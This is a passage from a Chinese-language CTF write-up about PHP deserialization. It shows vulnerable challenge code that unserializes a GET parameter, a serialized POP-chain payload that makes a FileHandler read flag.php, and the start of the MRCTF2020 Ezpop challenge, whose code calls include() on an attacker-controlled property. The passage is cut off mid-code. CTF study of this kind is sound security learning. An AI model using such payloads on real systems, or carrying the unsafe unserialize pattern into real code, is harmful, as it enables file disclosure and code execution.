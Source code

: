 ```php
  }

}

function is_valid($s) {
  for($i = 0; $i < strlen($s); $i++)
    if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
      return false;
  return true; //形参变量i在ASCII码里为32-125则返回真
}

if(isset($_GET{'str'})) {

  $str = (string)$_GET['str'];
  if(is_valid($str)) { //调用is_valid函数判断是否满足在32-125范围
                       $obj = unserialize($str);
                     }

}

```

题目提示flag在文件flag.php中问题在于我们要如何读取flag

由于read()方法中有<font style="color:#601BDE;">file_get_contents($this->filename);</font><font style="color:#000000;">可读取文件的函数 并且当op=2时能够指向read()方法 所以我们只需使op=2 filename=flag.php</font>

<font style="color:#000000;">于是把代码复制到本地 并构造pop链</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732842565873-5f1b5b63-c64b-4a7d-8583-f4d752123e50.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732842577171-ec67b586-9586-4cda-a33b-90bf47b1ecc4.png)

得出pop链  （由于protected属性生成pop链时会出现空字符 所以修改protect为public在进行输出）

```php
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";N;}
```

传入pop链 打开源代码后发现flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732842773214-a4a10576-63f5-4dad-ad31-cab6447e7661.png)

## BUUCTF [MRCTF2020]Ezpop 1
代码如下

```php
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
```